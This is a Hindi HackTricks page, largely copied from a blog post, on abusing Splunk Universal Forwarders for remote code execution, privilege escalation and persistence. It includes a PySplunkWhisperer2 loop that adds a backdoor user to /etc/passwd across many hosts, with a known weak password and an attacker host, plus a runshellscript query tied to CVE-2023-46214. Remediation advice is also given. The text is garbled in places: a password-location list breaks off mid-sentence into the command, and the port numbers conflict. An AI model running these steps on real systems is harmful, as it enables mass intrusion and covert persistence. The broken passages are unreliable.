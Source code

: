 # Splunk LPE और पर्सिस्टेंस

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें**.
* **HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपोज़ में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

यदि आप **आंतरिक रूप से** या **बाहरी रूप से** मशीन का **एन्युमरेशन** करते समय **Splunk चलते हुए पाते हैं** (पोर्ट 8090), और यदि आपको कोई **मान्य क्रेडेंशियल्स** पता हैं, तो आप **Splunk सर्विस का दुरुपयोग करके** **शेल को एक्जीक्यूट** कर सकते हैं जैसे Splunk चलाने वाले यूजर के रूप में। अगर रूट इसे चला रहा है, तो आप रूट तक प्रिविलेज एस्कलेट कर सकते हैं।

यदि आप **पहले से ही रूट हैं और Splunk सर्विस केवल localhost पर सुन नहीं रही है**, तो आप **Splunk सर्विस से** **पासवर्ड** फाइल **चुरा** सकते हैं और पासवर्ड्स को **क्रैक** कर सकते हैं, या उसमें **नए** क्रेडेंशियल्स **जोड़** सकते हैं। और होस्ट पर पर्सिस्टेंस बनाए रख सकते हैं।

नीचे दी गई पहली इमेज में आप देख सकते हैं कि Splunkd वेब पेज कैसा दिखता है।

**निम्नलिखित जानकारी** [**https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/**](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/) **से कॉपी की गई है**

## Splunk Forwarders का दुरुपयोग शेल्स और पर्सिस्टेंस के लिए

14 अगस्त 2020

### विवरण: <a href="#description" id="description"></a>

Splunk Universal Forwarder Agent (UF) प्रमाणित दूरस्थ उपयोगकर्ताओं को Splunk API के माध्यम से एजेंटों को एकल कमांड या स्क्रिप्ट भेजने की अनुमति देता है। UF एजेंट यह नहीं जांचता कि आने वाले कनेक्शन एक मान्य Splunk Enterprise सर्वर से हैं, न ही UF एजेंट कोड को सत्यापित करता है कि वह साइन किया गया है या अन्यथा Splunk Enterprise सर्वर से साबित होता है। यह एक हमलावर को जो UF एजेंट पासवर्ड तक पहुंच प्राप्त करता है, सर्वर पर ऑपरेटिंग सिस्टम के आधार पर SYSTEM या रूट के रूप में मनमाने कोड चलाने की अनुमति देता है।

यह हमला पेनेट्रेशन टेस्टर्स द्वारा उपयोग किया जा रहा है और संभवतः दुर्भावनापूर्ण हमलावरों द्वारा जंगली में सक्रिय रूप से शोषित किया जा रहा है। पासवर्ड प्राप्त करना ग्राहक के वातावरण में सैकड़ों सिस्टम के समझौते की ओर ले जा सकता है।

Splunk UF पासवर्ड प्राप्त करना अपेक्षाकृत आसान है, विवरण के लिए सेक्शन Common Password Locations देखें।

### संदर्भ: <a href="#context" id="context"></a>

Splunk एक डेटा एग्रीगेशन और सर्च टूल है जिसे अक्सर सिक्योरिटी इन्फॉर्मेशन और इवेंट मॉनिटरिंग (SIEM) सिस्टम के रूप में उपयोग किया जाता है। Splunk Enterprise Server एक वेब एप्लिकेशन है जो एक सर्वर पर चलता है, जिसमें एजेंट होते हैं, जिन्हें Universal Forwarders कहा जाता है, जो नेटवर्क में प्रत्येक सिस्टम पर स्थापित किए जाते हैं। Splunk Windows, Linux, Mac, और Unix के लिए एजेंट बाइनरीज प्रदान करता है। कई संगठन Linux/Unix होस्ट्स पर एजेंट स्थापित करने के बजाय Syslog का उपयोग करके Splunk को डेटा भेजते हैं लेकिन एजेंट स्थापना बढ़ती हुई लोकप्रियता प्राप्त कर रही है।

Universal Forwarder प्रत्येक होस्ट पर https://host:8089 पर सुलभ है। किसी भी सुरक्षित API कॉल्स, जैसे कि /service/ तक पहुंचने पर एक Basic प्रमाणीकरण बॉक्स पॉप अप होता है। उपयोगकर्ता नाम हमेशा admin होता है, और पासवर्ड डिफ़ॉल्ट changeme हुआ करता था जब तक कि 2016 में Splunk ने किसी भी नए स्थापना के लिए 8 अक्षर या उससे अधिक का पासवर्ड सेट करने की आवश्यकता नहीं की। जैसा कि आप मेरे डेमो में नोट करेंगे, जटिलता एक आवश्यकता नहीं है क्योंकि मेरा एजेंट पासवर्ड 12345678 है। एक दूरस्थ हमलावर बिना लॉकआउट के पासवर्ड को ब्रूट फोर्स कर सकता है, जो कि एक लॉग होस्ट की आवश्यकता है, क्योंकि अगर खाता लॉक हो गया तो लॉग अब Splunk सर्वर को नहीं भेजे जाएंगे और एक हमलावर इसका उपयोग अपने हमलों को छिपाने के लिए कर सकता है। निम्नलिखित स्क्रीनशॉट Universal Forwarder एजेंट को दिखाता है, यह प्रारंभिक पृष्ठ प्रमाणीकरण के बिना सुलभ है और Splunk Universal Forwarder चलाने वाले होस्ट्स को गिनने के लिए उपयोग किया जा सकता है।

![0](https://eapolsniper.github.io/assets/2020AUG14/11\_SplunkAgent.png)

Splunk दस्तावेज़ीकरण सभी एजेंटों के लिए एक ही Universal Forwarding पासवर्ड का उपयोग करने को दिखाता है, मुझे याद नहीं है कि यह एक आवश्यकता है या यदि प्रत्येक एजेंट के लिए व्यक्तिगत पासवर्ड सेट किए जा सकते हैं, लेकिन दस्तावेज़ीकरण और मेरी याददाश्त से जब मैं Splunk व्यवस्थापक था, मुझे विश्वास है कि सभी एजेंटों को एक ही पासवर्ड का उपयोग करना होगा। इसका मतलब है कि अगर पासवर्ड एक सिस्टम पर पाया या क्रैक किया जाता है, तो यह सभी Splunk UF होस्ट्स पर काम करने की संभावना है। यह मेरा व्यक्तिगत अनुभव रहा है, जिससे सैकड़ों होस्ट्स का तेजी से समझौता हो सकता है।

### सामान्य पासवर्ड स्थान <a href="#common-password-locations" id="common-password-locations"></a>

मैं अक्सर नेटवर्क पर निम्नलिखित स्थानों पर Splunk Universal Forwarding एजेंट का प्लेन टेक्स्ट पासवर्ड पाता हूं:

1. Active Directory Sysvol/domain.com/Scripts निर्देशिका। प्रशासक कुशल ए
```bash
for i in `cat ip.txt`; do python PySplunkWhisperer2_remote.py --host $i --port 8089 --username admin --password "12345678" --payload "echo 'attacker007:x:1003:1003::/home/:/bin/bash' >> /etc/passwd" --lhost 192.168.42.51;done
```
मेज़बान जानकारी:

Splunk Enterprise Server: 192.168.42.114\
Splunk Forwarder Agent पीड़ित: 192.168.42.98\
हमलावर: 192.168.42.51

Splunk Enterprise संस्करण: 8.0.5 (12 अगस्त, 2020 को लैब सेटअप के दिन तक नवीनतम)\
Universal Forwarder संस्करण: 8.0.5 (12 अगस्त, 2020 को लैब सेटअप के दिन तक नवीनतम)

#### Splunk, Inc के लिए सुधार सिफारिशें: <a href="#remediation-recommendations-for-splunk-inc" id="remediation-recommendations-for-splunk-inc"></a>

मैं निम्नलिखित समाधानों को लागू करने की सिफारिश करता हूँ जो गहराई में रक्षा प्रदान करेंगे:

1. आदर्श रूप से, Universal Forwarder एजेंट का कोई भी पोर्ट खुला नहीं होगा, बल्कि यह नियमित अंतराल पर Splunk सर्वर से निर्देशों के लिए पोल करेगा।
2. क्लाइंट्स और सर्वर के बीच TLS म्यूचुअल प्रमाणीकरण को सक्षम करें, प्रत्येक क्लाइंट के लिए व्यक्तिगत कुंजियों का उपयोग करते हुए। यह सभी Splunk सेवाओं के बीच बहुत उच्च द्विपक्षीय सुरक्षा प्रदान करेगा। TLS म्यूचुअल प्रमाणीकरण एजेंट्स और IoT उपकरणों में भारी रूप से लागू किया जा रहा है, यह विश्वसनीय डिवाइस क्लाइंट से सर्वर संचार का भविष्य है।
3. सभी कोड, एकल पंक्ति या स्क्रिप्ट फाइलों को, एक संपीड़ित फाइल में भेजें जो Splunk सर्वर द्वारा एन्क्रिप्टेड और हस्ताक्षरित हो। यह API के माध्यम से भेजे गए एजेंट डेटा की सुरक्षा नहीं करता है, लेकिन तीसरे पक्ष से मलिशियस रिमोट कोड एक्जीक्यूशन के खिलाफ सुरक्षा करता है।

#### Splunk ग्राहकों के लिए सुधार सिफारिशें: <a href="#remediation-recommendations-for-splunk-customers" id="remediation-recommendations-for-splunk-customers"></a>

1. Splunk एजेंट्स के लिए एक बहुत मजबूत पासवर्ड सेट करना सुनिश्चित करें। मैं कम से कम 15-अक्षर यादृच्छिक पासवर्ड की सिफारिश करता हूँ, लेकिन चूंकि ये पासवर्ड कभी टाइप नहीं किए जाते हैं, इसे 50 अक्षरों जैसे बहुत बड़े पासवर्ड पर सेट किया जा सकता है।
2. होस्ट आधारित फायरवॉल को कॉन्फ़िगर करें ताकि केवल Splunk सर्वर से 8089/TCP पोर्ट (Universal Forwarder Agent का पोर्ट) पर कनेक्शन की अनुमति हो।

### Red Team के लिए सिफारिशें: <a href="#recommendations-for-red-team" id="recommendations-for-red-team"></a>

1. प्रत्येक ऑपरेटिंग सिस्टम के लिए Splunk Universal Forwarder की एक प्रति डाउनलोड करें, क्योंकि यह एक बहुत अच्छा हल्का वजन वाला हस्ताक्षरित इम्प्लांट है। अच्छा होगा अगर Splunk वास्तव में इसे ठीक करता है तो एक प्रति रखें।

### अन्य शोधकर्ताओं से Exploits/Blogs <a href="#exploitsblogs-from-other-researchers" id="exploitsblogs-from-other-researchers"></a>

सार्वजनिक रूप से उपयोगी exploits:

* https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2
* https://www.exploit-db.com/exploits/46238
* https://www.exploit-db.com/exploits/46487

संबंधित ब्लॉग पोस्ट:

* https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/
* https://medium.com/@airman604/splunk-universal-forwarder-hijacking-5899c3e0e6b2
* https://www.hurricanelabs.com/splunk-tutorials/using-splunk-as-an-offensive-security-tool

_\*\* नोट: \*\*_ यह मुद्दा Splunk सिस्टम्स के साथ एक गंभीर मुद्दा है और इसका अन्य परीक्षकों द्वारा वर्षों से शोषण किया गया है। जबकि Remote Code Execution Splunk Universal Forwarder की एक इरादा की गई सुविधा है, इसका कार्यान्वयन खतरनाक है। मैंने इस बग को Splunk के बग इनाम कार्यक्रम के माध्यम से सबमिट करने की कोशिश की, बहुत कम संभावना में कि वे डिजाइन प्रभावों के बारे में अवगत नहीं हैं, लेकिन मुझे सूचित किया गया कि किसी भी बग सबमिशन को Bug Crowd/Splunk प्रकटीकरण नीति को लागू करना होगा जो कहता है कि कमजोरी के विवरण को कभी भी सार्वजनिक रूप से चर्चा नहीं की जा सकती है _कभी_ Splunk की अनुमति के बिना। मैंने 90 दिनों की प्रकटीकरण समयरेखा का अनुरोध किया और इनकार कर दिया गया। इस तरह, मैंने इसे जिम्मेदारी से प्रकट नहीं किया क्योंकि मैं काफी निश्चित हूँ कि Splunk इस मुद्दे के बारे में जानता है और इसे अनदेखा करने का चुनाव किया है, मुझे लगता है कि यह कंपनियों को गंभीरता से प्रभावित कर सकता है, और यह इन्फोसेक समुदाय की जिम्मेदारी है कि व्यापारों को शिक्षित करें।

## Splunk Queries का दुरुपयोग

जानकारी [https://blog.hrncirik.net/cve-2023-46214-analysis](https://blog.hrncirik.net/cve-2023-46214-analysis) से

**CVE-2023-46214** ने **`$SPLUNK_HOME/bin/scripts`** में एक मनमानी स्क्रिप्ट अपलोड करने की अनुमति दी और फिर बताया कि सर्च क्वेरी **`|runshellscript script_name.sh`** का उपयोग करके वहां संग्रहीत **स्क्रिप्ट** को **निष्पादित** करना संभव था:

<figure><img src="../../.gitbook/assets/image (721).png" alt=""><figcaption></figcaption></figure>

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong>!</summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी HackTricks में विज्ञापित हो** या **HackTricks को PDF में डाउनलोड करें** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा [**NFTs**](https://opensea.io/collection/the-peass-family) का विशेष संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में अपनी हैकिंग ट्रिक्स साझा करके PRs सबमिट करें।

</details>
